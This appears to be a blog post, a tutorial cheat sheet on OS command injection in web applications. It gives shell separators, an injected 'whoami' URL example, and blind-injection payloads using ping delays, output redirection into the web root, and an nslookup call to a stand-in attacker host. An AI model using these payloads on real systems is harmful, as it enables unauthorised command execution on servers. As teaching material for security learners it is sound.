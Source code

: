```yaml
---
layout: blog
type: blog
title: Web Application Security - Command Injection
permalink: blog/web-command-injection
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - rce
  - commix
---
```


## Useful Commands

| Purpose of command | Linux | Windows |
| :--- | :---: | ---: |
| Name of current user |	whoami | whoami |
| Operating system | uname -a | ver |
| Network configuration | ifconfig | ipconfig /all |
| Network connections | netstat -an | netstat -an |
| Running processes | ps -ef | tasklist |

## Executing arbitrary commands

Simply edit the parameters with commands like
```shell
|, ||, &&, & and ; #to end the current command and run another

`` #used to run commands inbetween another command in linux

#Commands
whoami, uname -a, etc

e.g.
https://insecure-website.com/stockStatus?productID=381&storeID=29

becomes

https://insecure-website.com/stockStatus?productID=381;whoami||&storeID=29 
```


## Blind Command Injections

Many instances of OS command injection are blind vulnerabilities.

### Using time delays

Using a command that will trigger a time delay, allowing you to confirm that the command was executed based on the time the application takes to respond.

The ping command is an effective way to do this, e.g.

```shell
& ping -c 10 127.0.0.1 &
```

This will cause the ping command to ping the loopback address for 10 seconds.

### Redirecting output
If the web root directory is known, the output of a command could be redirected to a file in this directory and accessed easily through the browser, e.g.

```shell
& whoami > /var/www/html/whoami.txt &
```

### Using out-of-band techniques
 You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

```shell
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

# Automated tool
[Commix](https://github.com/commixproject/commix) tool can be used to automate command injection enumeration and exploitation.
